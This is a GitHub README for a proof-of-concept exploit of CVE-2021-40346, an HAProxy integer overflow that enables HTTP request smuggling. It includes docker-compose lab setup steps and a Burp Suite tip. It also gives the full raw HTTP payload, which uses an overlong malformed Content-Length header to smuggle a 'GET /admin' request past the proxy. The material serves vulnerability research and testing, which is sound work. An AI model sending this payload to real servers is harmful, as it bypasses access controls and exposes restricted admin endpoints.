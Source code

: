 # CVE-2021-40346-POC #

CVE-2021-40346 integer overflow enables http smuggling


## Build ##
```sh
cd 6-haproxy-overflow-2-smuggling
docker-compose build 
docker-compose up -d
```

## Burp Suite
Remember to uncheck "update content length" when dealing with Smuggling in Burp! \

![image](https://user-images.githubusercontent.com/31791455/140394586-6a44d0f5-363e-455c-b22b-f619868bcc87.png)


## Exploit ##
Be careful - note that an extra line might break the exploit.
```
POST /guest HTTP/1.1
Host: localhost:10001
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: 23

GET /admin HTTP/1.1
h:GET /guest HTTP/1.1
Host: localhost:10001


```
## Recommended reading:
https://forum.butian.net/share/694
https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/

## Credits:
https://github.com/donky16/CVE-2021-40346-POC


